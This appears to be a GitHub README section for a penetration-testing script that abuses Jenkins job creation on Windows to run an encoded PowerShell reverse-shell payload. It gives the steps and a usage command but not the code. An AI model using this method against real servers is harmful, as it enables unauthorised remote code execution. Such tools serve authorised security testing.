 ## win_revshell_cmd.py
This script is useful when you have valid credentials and want to check if it can be use to spawn a reverse shell.\
The Jenkins server must be installed on Windows.\
To be able to receive a reverse shell, the user must have BUILD and JOB CREATION privileges.\
Once logged in on Jenkins, the script creates a new "Freestyle project" JOB.\
![win_revshell_cmd_2](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_2.png)

Then configures or BUILD it to **"Execute Windows batch command"** with the **Powershell** encoded payload.
![win_revshell_cmd_1](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_1.png)

Finally, the script sends the instruction to execute this JOB.

USAGE:\
python3 ./win_revshell_cmd.py -w URL -r LOCAL_IP -rp LOCAL_PORT
![win_revshell_cmd_3](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_3.png)
![win_revshell_cmd_4](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_4.png)

Tested on Jenkins 2.150.2 on Windows 10 Pro 22H2 b.19045
